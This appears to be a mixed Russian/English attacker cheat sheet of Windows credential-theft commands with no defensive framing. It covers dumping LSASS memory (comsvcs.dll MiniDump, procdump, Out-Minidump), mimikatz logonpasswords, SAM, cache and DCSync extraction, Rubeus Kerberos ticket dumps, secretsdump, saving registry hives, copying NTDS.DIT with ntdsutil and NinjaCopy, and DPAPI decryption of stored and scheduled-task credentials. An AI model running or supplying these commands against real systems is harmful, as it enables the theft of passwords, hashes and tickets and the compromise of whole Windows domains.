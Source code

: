 ## Извлечение Kerberos-tickest через дамп виртуальной памяти:
**Три способа дампа памяти:**  
1) taskmgr.exe → ПКМ по lsass.exe → дамп памяти;  
2) rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full  
3) procdump.exe -ma lsass.exe /accepteula.  
  
Если дамп удалось создать, то билеты можно безопасно извлечь уже на своей стороне:  
mimikatz.exe -> sekurlsa::Minidump lsass.dmp -> sekurlsa::tickets /export  
  
## Извлечение Kerberos-tickest (Rubeus):  
**Список доступных тикетов**: Rubeus.exe triage  
**Извлекаем TGT пользователя**: Rubeus.exe dump /luid:0xfffff /service:krbtgt /nowrap  
**Aditional information**: Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  

## Извлечение хешей SAM (нужны учетные данные пользователя):  
secretsdump.py [domain]/[username]:[password]@[TARGET IP]  

## Извлечение хешей SAM (mimikatz):  
\mimikatz.exe token::elevate lsadump::sam exit  

## Извлечение NTLM/plaintext passwords (mimikatz):  
\mimikatz.exe token::elevate sekurlsa::logonpasswords exit  

## Извлечение Kerberos Encryption Keys (mimikatz): extract aes256_hmac value  
\mimikatz.exe token::elevate sekurlsa::ekeys exit  

## Domain cached credentials:  
Позволяет исользовать учетные данные домена, если нет связи с DC.   
\mimikatz.exe token::elevate lsadump::cache exit  

## DCSync (mimikatz):  
\mimikatz.exe token::elevate lsadump::dcsync exit  

## Powershell mimikatz:  
1) Invoke-Mimikatz -DumpCreds  
2) Invoke-Mimikatz -DumpCreds -ComputerName@("comp1","comp2")  

## DCSync with Kiwi:  
load kiwi  
dcsync_ntlm username  

## Manualy dump registry with Reg:
reg.exe save hklm\sam c:\temp\sam.save -> reg.exe save hklm\security c:\temp\security.save -> reg.exe save hklm\system c:\temp\system.save

**Crack dumped registry data**:  
1. creddump7\pwdump.py system sam  
2. secretsdump.py -system system -sam sam LOCAL  

## Retrieval of NTDS.DIT with ntdsutil:  
ntdsutil "activate instance ntds" ifm "create full C:\temp\ntdsutil" quit quit  

## Dump of LSASS with ProcDump:  
C:\Users\Administrator\Downloads\procdump.exe -accepteula -64 -ma lsass.exe c:\temp\lsass.dmp  

## Dump of LSASS with pd:  
C:\Users\Administrator\Downloads\pd.exe -p 552 > c:\temp\lsass.dump  

## Dump of LSASS with Minidump:  
Import-Module c:\users\administrator\downloads\PowerSploit-master\Exfiltration\Out-Minidump.ps1  
Get-Process lsass | Out-Minidump -DumpFilePath c:\temp  

## Retrieval of NTDS.DIT with NinjaCopy:  
**Local**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit"  

**Remote**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit" -ComputerName "WIN-25U0PFAB511"  

## Credentials manager (Seatbelt, Mimikatz):  
**List of credentials**:  
 - vaultcmd /list  
 - Seatbelt.exe WindowsVault //(The encrypted credentials stored in the users' "Credentials" directory)  
 - Seatbelt.exe WindowsCredentialFiles  
 - dir C:\Users\username\AppData\Local\Microsoft\Credentials  

**Obtain master key for decrypt stored credentials**:  
1) Mimikatz 1: sekurlsa::dpapi  
2) Mimikatz 2: dpapi::masterkey /in:C:\Users\username\AppData\Roaming\Microsoft\Protect\SID\GUID /rpc  

**Decrypt stored credentials**:  
mimikatz dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\ID /masterkey:masterkeyValue  

## Scheduled Task Credentials (Mimikatz):  
**List of tasks**: dir C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
**Find GIUD amd master key**: 
  - dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\ID //GUID  
  - sekurlsa::dpapi //master key  
**Decrypt stored creds**:  
dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\ID /masterkey:masterkeyValue  


